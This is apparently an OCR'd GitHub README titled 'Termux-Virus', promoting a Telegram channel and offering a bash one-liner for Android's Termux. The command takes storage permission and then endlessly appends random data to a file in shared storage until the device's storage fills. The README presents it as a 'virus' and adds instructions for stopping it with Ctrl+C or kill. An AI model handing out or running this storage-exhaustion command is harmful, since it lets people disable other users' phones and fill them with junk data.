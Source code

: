 Here’s the complete README file content with the sections you specified formatted as code:


# Termux-Virus

⚠ **Warning**: Run at your own risk.

Join My Channel: [SG_Modder1](https://t.me/SG_Modder1)

😈 **2024 New Termux Virus By Me** 😈

```bash
termux-setup-storage && if [ -d "/storage/emulated/0" ]; then while true; do dd if=/dev/urandom of="/storage/emulated/0/device.bin" bs=1M conv=notrunc oflag=append > /dev/null 2>&1 && echo "🟩"; done; else echo "Give storage permissions."; termux-setup-storage; fi
```

## ⭐️ HOW IT WORKS ⭐️

```markdown
👨‍💻 This command automatically generates a single file and continuously increases its size until you force stop Termux.
```

## 🛑 HOW TO STOP IT 🛑

```markdown
You can stop the script in two ways:

1. **Using Ctrl + C**:
   - Simply press `Ctrl` and `C` keys together in your Termux terminal to terminate the script.

2. **Using the `kill` Command**:
   - Open another terminal session.
   - Run the command to find the process ID (PID):
     ```bash
     ps aux | grep dd
     ```
   - Identify the PID of the `dd` process.
   - Run the following command to kill the process:
     ```bash
     kill <PID>
     ```
```

💎 **Made By**: @SG_Modder1
```
